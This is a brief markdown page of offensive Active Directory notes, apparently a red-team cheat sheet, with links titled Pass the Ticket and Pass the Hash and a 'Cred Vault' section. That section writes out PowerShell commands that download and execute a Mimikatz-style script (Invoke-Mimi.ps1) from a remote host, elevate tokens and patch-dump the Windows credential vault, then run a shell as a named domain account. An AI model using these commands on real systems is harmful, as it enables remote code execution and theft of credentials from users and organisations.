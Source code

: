 # eKeys > [[Pass the Ticket]]


# SamDump > [[Pass the Hash]]


# Cred Vault 
```powershell

```
PS > iex (iwr http://172.16.100.1/Invoke-Mimi.ps1 -UseBasicParsing)

PS > Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'

PS > runas /netonly /user:tech\databaseagent powershell.exe

**